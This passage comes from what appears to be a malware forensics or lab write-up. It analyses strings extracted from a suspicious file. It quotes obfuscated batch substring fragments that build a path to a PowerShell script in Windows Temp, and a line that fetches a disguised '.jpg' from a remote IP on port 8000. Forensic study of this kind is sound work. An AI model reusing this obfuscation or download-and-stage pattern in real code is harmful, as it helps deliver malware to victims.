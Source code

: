 **Output File:**  
`C:\cases\SpottedInTheWild\strings.txt`

**Purpose:**  
Extracting readable strings from the suspicious file for further analysis.
### Key Findings from Strings Analysis
Within the extracted strings, I identified two important lines:

```

%%LzKV:~38,1%%LzKV:~38,1%%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\Eventlogs.ps1
%LzKV:~4,1%%LzKV:~56,1%%LzKV:~27,1%%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\Eventlogs.ps1


```

These lines indicate the presence of a **PowerShell script named `Eventlogs.ps1`** in the **Windows Temp directory**. This script is likely involved in executing the next stage of the attack and will be analyzed in subsequent steps.
_The following image shows the extracted strings from the **`strings.txt`** file, revealing key findings:_

```

%%LzKV:~38,1%%LzKV:~38,1%%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\Eventlogs.ps1
%LzKV:~4,1%%LzKV:~56,1%%LzKV:~27,1%%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\Eventlogs.ps1


```

These lines indicate the presence of a **PowerShell script named `Eventlogs.ps1`** in the **Windows Temp directory**. This script is likely involved in executing the next stage of the attack and will be analyzed in subsequent steps.
![](images/stringoutput.png)

Additionally, I discovered another crucial line:

```

://172.18.35.10:8000/amanwhogetsnorest.jpg%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\amanwhogetsnorest.jpg


```

From this, I identified an **IP address (172.18.35.10) communicating over port 8000**, attempting to download a file named `amanwhogetsnorest.jpg`. However, this file was not present on the system at the time of analysis.
_The following image shows the extracted strings from the **`strings.txt`** file, revealing key findings:_
